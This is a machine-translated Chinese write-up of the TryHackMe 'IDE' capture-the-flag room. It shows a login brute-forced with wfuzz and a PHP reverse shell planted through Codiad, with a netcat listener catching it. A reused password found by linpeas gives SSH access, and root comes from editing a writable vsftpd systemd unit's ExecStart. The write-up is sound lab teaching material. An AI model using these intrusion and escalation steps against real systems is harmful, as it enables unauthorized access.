





# TryHackMe-IDE

> 原文：<https://infosecwriteups.com/tryhackme-ide-15ea67a44bc9?source=collection_archive---------3----------------------->

嗨，伙计们，又和特里哈克姆 with 玩得开心了。所以，这里是通过这个 **IDE** 挑战的记录和指南。这间 CTF 客房是由 CTF 爱好者为 CTF 爱好者设计的。


**房间**:[https://tryhackme.com/room/ide](https://tryhackme.com/room/ide)
**关卡**:轻松

**任务**:打磨你枚举技能的简易盒子！获得一个外壳并升级您的权限！

# 我们开始吧

像往常一样，启动机器，在浏览器中打开 IP


不寻常。所以我们可以运行`nmap`来检查在其他端口上运行的任何系统

```
> nmap -A -T4 -sS -sV -p- 10.10.223.165
PORT      STATE SERVICE VERSION**21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)**
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.163.74
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
**62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))**
|**_http-title: Codiad 2.8.4**
|_http-server-header: Apache/2.4.29 (Ubuntu)No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).....
....
```

在这里找到 2 个有趣的匹配。FTP 部分可以匿名访问。使用 Cyberduck 和浏览服务器



找到一个没有扩展名的文件。下载并打开它

```
Hey **john**,
I have reset the password as you have asked. **Please use the default password to login.** 
Also, please take care of the image file ;)
- **drac**.
```

据说 drac 把 john 的密码重置成了默认密码。因为 FTP 阻止任何东西上传，所以只需记下并继续

让我们看看 TCP 端口 62337



这是登录页面。表单正在向此端点发送请求

```
[http://10.10.X.X:62337/components/user/controller.php\?action\=authenticate](http://10.10.223.165:62337/components/user/controller.php\?action\=authenticate)
```

使用 sqlmap 查看 SQL 注入是否存在漏洞

```
> sqlmap --forms -u http://10.10.X.X:62337/ --risk=3 --level=3 --random-agent -p "username"
```

不要。太久得不到结果。决定用`wfuzz`。使用“john”作为用户名，使用随机密码运行 wfuzz，因为注释显示 john 是系统用户之一

```
> wfuzz -c -Z -w wordlists/rockyou.txt --sc 200 -d "username=john&password=FUZZ" [http://10.10.X.X:62337/components/user/controller.php\?action\=authenticate](http://10.10.223.165:62337/components/user/controller.php\?action\=authenticate)====================================================================
ID           Response   Lines    Word       Chars       Payload
====================================================================
..... 
000000008:   200        0 L      4 W        61 Ch       "rockyou"
000000005:   200        0 L      4 W        61 Ch       "iloveyou"
000000051:   200        0 L      4 W        61 Ch       "amanda"
**000000004:   200        0 L      1 W        47 Ch       "XXXXXXXX"**
.....
```

哇哦..“默认密码”是指 XXXXXXX。😂没听清楚。然后，我们就可以成功登录了



它显示了一种不是当前运行系统的代码编辑器。但是，有一个按钮，我们可以创建另一个项目。让我们试着创造一些东西。



不幸的是，有一个错误消息“绝对路径只允许用于/var/www/html/codiad/home”。

行..将绝对路径值更改为`/var/www/html/codiad`。点击创建，突然显示当前运行系统的整个项目代码。



`index.php`是登录用户界面发生的地方。有趣的是，它可以在里面创建任何文件。🤫。右键单击根文件夹并创建一个新文件。我给它“**reverse.php**”，并将反向外壳代码放入文件中。通过浏览器`/reverse.php`打开文件，通过终端监听

```
> nc -nlvp 4444
Connection from XXXXXXXXXXXXXXXXXX
Linux ide 4.15.0-147-generic #151-Ubuntu SMP Fri Jun 18 19:21:19 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
07:04:14 up  1:34,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Tada！以 www-data 用户的身份访问服务器。浏览个人文件夹

```
> ls -al /home
drwxr-xr-x  3 root root 4096 Jun 17  2021 .
drwxr-xr-x 24 root root 4096 Jul  9  2021 ..
drwxr-xr-x  6 drac drac 4096 Aug  4 07:06 drac> ls -al /home/drac
drwx------ 3 drac drac 4096 Jun 18  2021 .local
-rw-r--r-- 1 drac drac  807 Apr  4  2018 .profile
-rw-r--r-- 1 drac drac    0 Jun 17  2021 .sudo_as_admin_successful
-rw------- 1 drac drac  557 Jun 18  2021 .xsession-errors
**-r-------- 1 drac drac   33 Jun 18  2021 user.txt**
```

找到了标志…但只能由 **drac** 读取。`sudo -l`不会给出任何信息。我不能用九头蛇来破解 **drac** 密码，因为 M1 不支持。我需要找到另一种方法

我们在项目中上传`linpeas`shell，从终端执行怎么样？哈哈哈！下载`linpeas.sh`。复制代码并粘贴到代码编辑器中。现在，我们可以简单地找到 linpeas shell 并执行它

```
> cd /var/www/codiad
> sh linpeas.sh
....
....
**╔══════════╣ Searching passwords in history files
mysql** -u drac -p 'XXXXXXXXXXXXXXXX' **....
....**
```

找到了 drac 用于 Mysql 的密码。但是如果 drac 在 SSH 中使用相同的密码呢？让我们测试一下

```
> ssh drac@10.10.X.Xdrac@10.10.223.165's password:
**drac@ide**:**~**$ > cat user.txt
XXXXXXXXXXXXXXXXX
```

这与 SSH 使用的密码相同。现在，我们成功登录并找到了第一面旗帜。现在是根旗。首先，

```
> sudo -lMatching Defaults entries for drac on ide:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User drac may run the following commands on ide:
**(ALL : ALL) /usr/sbin/service vsftpd restart**
```

因此，可以通过 drac 使用 sudo 来执行服务命令。提到 GTFObins，

```
> sudo service ../../bin/shSorry, user drac is not allowed to execute '/usr/sbin/service ../../bin/sh' as root on ide.
```

无法运行命令，因为 sudo 命令仅限于`vsftpd`服务。无需为寻找提示而头疼，只需再次运行 linpeas，

```
**....
....
╔══════════╣ Interesting GROUP writable files (not in Home) (max500)
╚** [***https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files***](https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files)Group **drac:
/lib/systemd/system/vsftpd.service** ....
....
```

发现`vsftpd`服务可由 drac 写入，并由 root 拥有。打开文件，我们可以看到“ExecStart”可以在那里运行命令。既然我的直觉告诉我 CTF 根旗的大部分位于`root/root.txt`。所以，只需把 bash 命令输出的根标志的内容放到根系统目录下。

```
[Unit]
Description=vsftpd FTP server
After=network.target[Service]
Type=simple
ExecStart=/bin/sh -c "cat /root/root.txt > /root.txt"
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty[Install]
WantedBy=multi-user.target
```

保存并尝试重新启动服务

```
> sudo /usr/sbin/service vsftpd restart
**Warning:** The unit file, source configuration file or drop-ins of vsftpd.service changed on disk. Run 'systemctl daemon-reload' to reload units.
```

只要听从警告，

```
> systemctl daemon-reload
> sudo /usr/sbin/service vsftpd restart> cat /root.txt
XXXXXXXXXXXXXXXX
```

找到最后一面旗帜！！

感谢您的阅读，让我们来看看另一篇文章。🤘

🔈🔈 **Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。** [**查看更多详情并在此注册。**](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)